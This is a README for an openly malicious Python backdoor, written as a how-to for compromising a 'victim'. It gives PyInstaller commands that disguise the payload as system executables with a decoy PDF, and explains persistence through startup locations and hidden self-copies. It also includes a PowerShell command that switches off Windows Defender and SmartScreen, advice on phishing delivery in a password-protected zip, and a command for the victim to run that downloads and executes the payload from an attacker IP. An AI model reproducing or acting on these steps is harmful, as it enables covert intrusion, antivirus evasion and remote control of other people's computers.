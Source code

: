 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

---
## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   pip install requests pillow pyautogui
    ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
```powershell
C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" ——version-file=version_info.txt --add-data "sample.pdf;." Unobfuscated\plain_backdoor.py
```
  
#### For MacOS :    
```zsh
/Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
```

#### For Linux :
```shell
pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
```zsh
python listeenr.py
```
 when target clicks backdoor, you get the connection
 
---

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.


---

# Evasion Techniques :
To Disable Defender via Administrative powershell :
Note : Must have Tamper protection off
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableScriptScanning $true; Set-MpPreference -PUAProtection 0; Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\AppHost" -Name "EnableWebContentEvaluation" -Value 0; Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```
To avoid Cloud/Browser based detections :
1. Convert the .exe to Zip file with password protection and use email phishing 
2. Convince the victim to execute these commands assuming he has 7zip-archive installed:
Win + R and then :
```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://<IP>/Windows.zip' -OutFile '$env:TEMP\Windows.zip'; & 'C:\Program Files\7-Zip\7z.exe' x '$env:TEMP\Windows.zip' -o'$env:TEMP' -p12345 -y; Start-Process '$env:TEMP\file.exe'"
```
Note : The backdoor will likely be flagged unless Defender is disabled 